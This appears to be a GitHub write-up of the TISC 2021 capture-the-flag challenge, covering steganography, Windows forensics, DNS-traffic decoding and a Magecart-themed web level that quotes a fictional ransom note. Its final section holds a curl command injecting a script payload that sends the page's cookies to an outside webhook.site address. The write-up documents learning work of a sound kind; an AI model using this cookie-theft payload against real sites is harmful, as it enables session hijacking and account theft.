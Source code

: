 # CSIT_TISC2021
## Level 1
### Challenge 1 : File1.wav
* Morse code hidden in the file. 
* Use Sonic Visualiser to open .wav file and the morse code appears.
* Flag : 

### Challenge 2 : File2.jpg
* Information Hidden in the metadata. 
* Tricky things is when it is downloaded, photo is modified. 
* Hence we will need to use online exif tool to extract metadata from image url.
* Flag : 

### Challenge 3 : File3.jpg
* Used exiftool online --> no metadata
* Used HxD to strings to see any text hidden within the file. 
* Notable Strings 2 x "picture_with_text.jpg"
* Looked into the Hex Editor for "picture_with_text.jpg" text string and saw something suspicious : "PK"
* Used binwalk to extract, xxd to look into the binaries of the unzipped file again and saw it... A suspicious looking message. 
* Cyberchef ROT 13 and FLAG:   

## Windows10.ova File
### Challenge 4 : What is the name of the user?
Windows Search --> System Information --> Flag: {TISC:Adam}

### Challenge 5 : Which time was the user's most recent logon? Convert it UTC before submitting.
--> EventViewer --> Filter Event 4624 --> Look out for Logon Type : 2

### Challenge 6 : A 7z archive was deleted, what is the value of the file CRC32 hash that is inside the 7z archive?
Download 7zip --> move into vm --> install 7zip in vm --> open archive Flag : 

### Challenge 7 : Question1: How many users have an RID of 1000 or above on the machine? What is the account name for RID of 501? What is the account name for RID of 503?
go to cmd --> wmic useraccounts get sid,name Flag 

### Challenge 8 : Question1: How many times did the user visit https://www.csit.gov.sg/about-csit/who-we-are ? How many times did the user visit https://www.facebook.com ? How many times did the user visit https://www.live.com ?
Use Nirsoft BrowsingHistoryView 

### Challenge 9 : A device with the drive letter “Z” was connected as a shared folder in VirtualBox. What was the label of the volume? Perhaps the registry can tell us the "connected" drive?
https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/mapped-network-drive-disconnected

### Challenge 10 : A file with SHA1 0D97DBDBA2D35C37F434538E4DFAA06FCCC18A13 is in the VM… somewhere. What is the name of the file that is of interest?

## Level 2
### We have detected and captured a stream of anomalous DNS network traffic sent out from one of the PALINDROME compromised servers. None of the domain names found are active. Either PALINDROME had shut them down or there's more to it than it seems. This level contains 2 flags and both flags can be found independently from the same pcap file as attached here.
Open pcap --> saw a pattern d33d(2 digit)(7char)
split 2 digit and 7 char
### DEE-NA-SAW as a need Part 2
take the python script output and throw into cyberchef
* DEE-NA-SAW part 2 has a peculiar string ***"ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz+/"***
### DEE-NA-SAW as a need Part 1
* string saw above is the decoder for Part 1.
* wrote a python script to do a substitution for above string with the 2 digit numbers in part 1 (attached in this repo)
* found out that the substituted cipher is a base64 encoded data and base64 is in the form of the above ***string***
* throw into cyberchef to decode base64 with custom string
* saw PK file extension
* extract as zip file ---> "What you Seek is within"
* Flag : 

## Level 3
### An attack was detected on an internal network that blocked off all types of executable files. How did this happen? Upon further investigations, we recovered these 2 grey-scale images. What could they be?
* Downloaded the two bmp images and straight out threw it into cyberchef
* Content of 1.bmp
* Content of 2.bmp

## Level 4
### One day, the admin of Apple Story Pte Ltd received an anonymous email.
> Dear admins of Apple Story, We are PALINDROME. We have took control over your system and stolen your secret formula! Do not fear for we are only after the money.Pay us our demand and we will be gone. For starters, we have denied all controls from you. We demand a ransom of 1 BTC to be sent to 1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2 by 31 dec 2021. Do not contact the police or seek for help. Failure to do so and the plant is gone. We planted a monitoring kit so do not test us. Remember 1 BTC by 31 dec 2021 and we will be gone. Muahahahaha. Regards, PALINDROME
### Management have just one instruction. Retrieve the encryption key before the deadline and solve this.
* since hint is free anyway, might as well check it right?
(insert image here)
* So... after some googling... Here are some possiblilities
   1. https://www.riskiq.com/what-is-magecart/
   2. https://heimdalsecurity.com/blog/magecart-group-conceal-stolen-credit-card-details-into-image-files/
   3. https://thehackernews.com/2021/05/magecart-hackers-now-hide-php-based.html 
* Checking out 1 : tried looking for javascripts that are running and see if there are any vulnerability. \
  below is the only script that can be found, nothing vulnerable there. \
  
  Tried all the web attacks on the payment page. Nothing much from there

* Checking out 2 : checking out the images within the website \
nothing suspicious about the svg image. Hex output seems normal
nothing suspicious about the gif. All looks normal, even after using hex editor to skim through and strings, nothing suspicious

* Checking out 3 : checking the favicon of the website
same procedure as images above which is to throw into cyberchef and look at the hex and... found these : \
which led to this : 

* Nice another webpage and it seems to be doing a POST request with a certain field.
commands used
```
curl -X POST "http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php" -d "14c4b06b824ec593239362517f538b29=<script>document.write('<img src="https://webhook.site/694ffb57-9ed8-4db2-86ae-5463fea3af0b?c='%2bdocument.cookie%2b'" />');</script>
```





